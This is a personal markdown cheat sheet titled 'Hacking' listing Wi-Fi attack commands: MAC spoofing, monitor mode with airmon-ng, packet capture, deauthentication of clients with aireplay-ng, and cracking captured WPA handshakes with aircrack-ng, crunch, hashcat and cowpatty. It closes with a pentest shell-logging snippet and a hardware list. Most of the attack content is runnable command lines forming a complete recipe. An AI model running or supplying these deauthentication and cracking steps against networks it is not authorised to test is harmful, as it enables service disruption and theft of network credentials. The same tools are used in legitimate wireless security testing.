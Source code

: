 ```yaml
---
title: Hacking
date: 2020-04-03 20:32:13+01:00
author: Gaxpert
---
```


# Hacking


## Wifi

Wifi hacking
    
check wifi powers
`wavemon`
### macchanger
```
service network-manager stop
ifconfig wlan0 down
macchanger -b -a wlan0
ifconfig wlan0 up
service network-manager start
  ``` 
### airmon-ng
`airmon-ng check kill`
monitor mode
`airmon-ng start wlan0`
#### specify channel
`airmon-ng start wlan0 7`

#### Capture packets and write to file
`airodump-ng wlan0mon -w file.cap`
optional, target only one bssid
`--bssid AA:BB:CC: ....`
optional, deauth target
`aireplay-ng --deauth 100 -a AP -c CLIENT wlan0mon`

### handshakes
extract handshakes from file
`wpaclean handshakes.cap file.cap`
crack pass
`aircrack-ng handshakes.cap -w /path/to/dict.txt`
optional, use cruch as dic
 ` crunch 8 8 abcdefghijklmnopqrstuvwxyz aircrack-ng -b AA:BB:CC:DD -w - file.cap`
Or crack with hashcat (faster)


### hashcat
Stores result in ~/.hashcat/hashcat.pot

`cap2hccapx file.cap out.cap`
attention to several cap files
might need to specify network. Maybe check with "wpaclean" how many handshakes are present
`hashcat -a 0 -m 2500 all.hccapx rockyou.txt`

-a = Cracking mode
  0  = wordlist
  3  =  bruteforce
  1  = combinator

note: zsh doesnt like ? chat, use bash

charsets
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
?a = ?l?u?d?s
?b = 0x00 - 0xff

### Precompute PSK
`genpmk -f dict.txt -d hashes -s SSID`
ex: `genpmk -f rockyou.txt -d hashes -s TheLair`
then break with cowpatty
`cowpatty -d hashfile -r dumpfile -s ssid`


## Reporting

For pentesting, Add this to your .bashrc file:

PS1='[\`date  +"%d-%b-%y %T"\`] > ' 
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/logs/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)

Now you can have a log of everything you did and when you did it.

## wHardware

ALFA Network AWUS036NHA + U-de Montage CS 5 dBi WiFi Adaptateur réseau

Plugable USB Bluetooth Adaptateur, 4.0 


